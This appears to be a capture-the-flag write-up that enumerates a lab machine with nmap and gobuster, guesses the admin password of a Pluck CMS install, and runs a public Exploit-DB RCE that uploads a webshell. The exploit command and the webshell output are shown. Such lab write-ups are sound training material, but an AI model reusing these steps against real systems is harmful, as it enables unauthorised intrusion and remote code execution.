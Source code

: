 I run nmapAutomator.sh to get the initial enumeration going. This shows 2 open ports, 22 and 80.

# Foothold

### 80

80 shows apache default page
apache 2.4.41

Checking for files and dirs on the webserver with gobuster:
```
sudo gobuster dir -u http://10.10.223.148 -w /opt/wordlists/directory-list-2.3-medium.txt -o gobusterLogs -x php,txt,html,pdf,sql,old,bak
```

This shows an /app/ folder. In this folder, there is another folder called: pluck 4.17.13
Clicking on this will open pluck. Checking the version, exploitdb has a RCE for us:
```
https://www.exploit-db.com/exploits/49909
```

We need to be authenticated to use this tho. THerefore, I look for a login page and clicking on 'admin' in the bottom of the page redirects us to a login form for the user admin. Checking some easy to guess password gives us access. (the password is 'password'). Now we can use the RCE from exploitdb:

We need to provide some arguments for the python script:
```
User Input:
'''
target_ip = sys.argv[1]
target_port = sys.argv[2]
password = sys.argv[3]
pluckcmspath = sys.argv[4]
```

The final command looks like this:
```
python3 exploit.py 10.10.223.148 80 password /app/pluck-4.7.13/
```

```
Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.223.148:80/app/pluck-4.7.13//files/shell.phar

```



# 22
Although we have a foothold, don't forget to check the other port aswell.
Connecting to ssh show us this custom message:
```
                                  {} {}
                            !  !  II II  !  !
                         !  I__I__II II__I__I  !
                         I_/|--|--|| ||--|--|\_I
        .-'"'-.       ! /|_/|  |  || ||  |  |\_|\ !       .-'"'-.
       /===    \      I//|  |  |  || ||  |  |  |\\I      /===    \
       \==     /   ! /|/ |  |  |  || ||  |  |  | \|\ !   \==     /
        \__  _/    I//|  |  |  |  || ||  |  |  |  |\\I    \__  _/
         _} {_  ! /|/ |  |  |  |  || ||  |  |  |  | \|\ !  _} {_
        {_____} I//|  |  |  |  |  || ||  |  |  |  |  |\\I {_____}
   !  !  |=  |=/|/ |  |  |  |  |  || ||  |  |  |  |  | \|\=|-  |  !  !
  _I__I__|=  ||/|  |  |  |  |  |  || ||  |  |  |  |  |  |\||   |__I__I_
  -|--|--|-  || |  |  |  |  |  |  || ||  |  |  |  |  |  | ||=  |--|--|-
```